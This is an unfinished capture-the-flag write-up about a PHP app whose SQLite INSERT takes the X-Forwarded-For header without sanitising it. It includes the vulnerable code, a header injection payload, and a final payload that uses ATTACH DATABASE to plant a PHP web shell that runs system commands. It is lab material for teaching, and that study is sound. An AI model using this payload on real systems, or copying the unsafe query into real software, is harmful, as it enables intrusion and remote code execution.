

# WIP

This Write Up is a work in progress

# Notes

App code with SQLi vulnerability, but the successful injection does not leak details back to client:

```javascript
public function getSubscriberIP(){
        if (array_key_exists('HTTP_X_FORWARDED_FOR', $_SERVER)){
            return  $_SERVER["HTTP_X_FORWARDED_FOR"];
        }else if (array_key_exists('REMOTE_ADDR', $_SERVER)) {
            return $_SERVER["REMOTE_ADDR"];
        }else if (array_key_exists('HTTP_CLIENT_IP', $_SERVER)) {
            return $_SERVER["HTTP_CLIENT_IP"];
        }
        return '';
    }

    public function subscribe($email)
    {
        $ip_address = $this->getSubscriberIP();
        return $this->database->subscribeUser($ip_address, $email);
    }
public function subscribeUser($ip_address, $email)
    {
        return $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
    }
```

Example injection payload, just had to POST header for /subscribe API endpoint:

```http
X-Forwarded-For: ');select * from subscribers;--
````

Final payload to attach sqlite database (creates a new file), add php code:

```sql
Stealing your flag', 'Rafiina');ATTACH DATABASE '/www/static/js/pwned.php' AS lol;CREATE TABLE lol.pwn (dataz text);INSERT INTO lol.pwn (dataz) VALUES ("TEST<?php system('cat /flag*') ?>");--
```

Navigate to `challenge-server:port/static/js/pwned.php`



HTB{inj3ct3d_th3_tru7h}